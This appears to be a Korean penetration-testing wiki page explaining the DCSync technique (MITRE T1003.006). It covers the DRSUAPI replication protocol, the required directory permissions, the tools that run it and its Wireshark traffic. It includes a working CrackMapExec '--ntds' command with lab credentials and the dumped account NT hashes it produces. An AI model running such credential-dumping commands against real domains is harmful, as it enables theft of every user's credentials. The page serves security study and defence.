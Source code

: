 ```yaml
---
description: 'ID: T1003.006 - OS Credential Dumping: DCSync'
---
```


# DCSync

## 개념

도메인 컨트롤러는 윈도우 액티브 디렉토리 도메인 내 사용자 인증 및 권한을 관리하는 중요한 서버다. 너무 중요하기 때문에 대부분의 윈도우 액티브 디렉토리 환경들은 안정성을 위해 도메인 컨트롤러 서버를 두 대 이상 운영하고 있다. 도메인 컨트롤러들은 각자의 액티브 디렉토리 오브젝트 관련 데이터들을 가지고 있고, 사용자 계정등의 경우에는 NTDS.dit 파일들을 각 서버의 파일시스템에 저장하고 있다. 도메인 컨트롤러들은 각자의 도메인 데이터들을 서로 싱크하고 맞추기 위해 MS-DRSR (Directory Replication Service Remote Protocol) 이라는 프로토콜을 사용한다. 그리고 MS-DRSR 프로토콜은 DRSUAPI (Directory Resplication Service) 라는 RPC 인터페이스를 통해 액티브 디렉토리에 적용됐다.

MS-DRSR과 DRSUAPI를 악용할 수 있는 방법은 2015년 8월 Mimikatz 툴에 "DCSync" 라는 기능이 추가되면서 세상에 본격적으로 알려지게 된다. 이 DCSync 라는 기능은 도메인 장악 권한 (도메인 관리자, 엔터프라이즈 관리자, 등)을 가진 상태에서 실행하게 되면 도메인 컨트롤러 머신 계정을 impersonate 한 뒤, DRSUAPI의 `GetNCChanges/DRSGetNCChanges` 함수를 이용해 도메인 내 모든 유저 계정의 계정 정보 (NTDS.dit 파일안의 유저 이름 + NT Hash) 를 받아온다.

Mimikatz가 선보였던 이 "DCSync" 라는 기능은 추후 다른 툴들에게도 적용되어, 오늘날 "DRSUAPI 혹은 MS-DRSR을 이용해 도메인 컨트롤러로부터 도메인 유저 계정 정보를 받아오는" 뜻을 갖게 되었다. 여기서 중요한 점은, DCSync는 공격 방법이나, 익스플로잇이 아니라는 것이다. DCSync는 마이크로소프트사가 적용한 DRSUAPI를 의도한대로 정상적으로 사용할 뿐인 기능이다.



## 사전 조건

내부망 모의해킹 시 DCSync를 사용하려면 현재 장악한 유저 계정이나 머신 계정이 다음과 같은 권한을 도메인 레벨에 가지고 있어야한다. 이 권한들은 모두 ExtendedRights에 해당하는 권한들이다.

1. `DS-Replication-Get-Changes`: Replicating Directory Changes
2. `DS-Replication-Get-Changes-All`: Replicating Directory Changes All
3. 혹은, `GenericAll`

모두 디렉토리의 변경점을 복제하고 싱크하기 위한 권한들이다. 위 권한들을 디폴트로 가지고 있는 액티브 디렉토리 오브젝트들은 다음과 같다.

1. Domain Admins@domain.com
2. Enterprise Admins@domain.com
3. Domain Controllers@domain.com
4. Administrators@domain.com

위 기본적인 오브젝트들이 아니라 `DS-Replication-Get-Changes/All` 권한을 가지고 있는 특정 오브젝트가 있다면, 블러드하운드에서는 아래와 같이 보일 것이다. 대부분 `AllExtendedRights`, `DCSync`, 혹은 `GenericAll` 권한들을 도메인 오브젝트에 가지고 있는 형태로 보인다.&#x20;

<figure><img src="../.gitbook/assets/dcsyncers.PNG" alt=""><figcaption></figcaption></figure>

## 실습

DCSync 권한을 가진 계정을 장악했다면, CrackMapExec, Mimikatz, Invoke-DCSync, SharpKatz 등의 다양한 툴을 이용해 DCSync 기능을 실행한다.

실제 내부망 모의해킹 시 도메인 장악을 끝내고 마지막으로 DCSync를 실행하며 도메인 내 수만명의 계정 정보가 쭉 올라가고 있는 걸 보는 것 만큼 기분 좋은 것이 없다.

```
└─# cme smb 192.168.40.150 -u administrator -p 'Password123!' --ntds                                                                                  
SMB         192.168.40.150  445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:choi.local) (signing:False) (SMBv1:
True)                                                                                                                                                 
SMB         192.168.40.150  445    DC01             [+] choi.local\administrator:Password123! (Pwn3d!)                                         
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...                    
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::          
SMB         192.168.40.150  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::     
SMB         192.168.40.150  445    DC01             choi.local\low:1601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::    
SMB         192.168.40.150  445    DC01             sqladmin:1603:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::             
SMB         192.168.40.150  445    DC01             choi.local\sqldude:1604:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             choi.local\linuxadmin:1605:aad3b435b51404eeaad3b435b51404ee:f7381d09866c0d678b836bf38b37122a:::   
SMB         192.168.40.150  445    DC01             choi.local\edward:1608:aad3b435b51404eeaad3b435b51404ee:2d769326bbe2798417b8fb6091f3857e:::
SMB         192.168.40.150  445    DC01             choi.local\da:1618:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

[ . . . ]
```

## 실습 - 와이어샤크&#x20;

DCERPC 답게, 먼저 DCSync를 실행하면 Bind 과정을 거져 DRSUAPI 의 RPC 인터페이스들을 본격적으로 찾기 시작한다.&#x20;

<figure><img src="../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

그 뒤, `DsGetNCChanges` 로 도메인 유저 계정 정보를 받아온 뒤, `DsCrackNames` 로 받아온 데이터를 기본적인 문자열로 다시 포멧한다. 이 과정을 모든 도메인 유저 계정 정보를 받아올 때 까지 계속해서 반복한다.&#x20;

<figure><img src="../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

### 레퍼런스&#x20;

* https://wiki.samba.org/index.php/DRSUAPI
* https://adsecurity.org/?p=1729
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)#ds-replication-get-changes-all
* https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-DRSR/%5bMS-DRSR%5d.pdf
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410



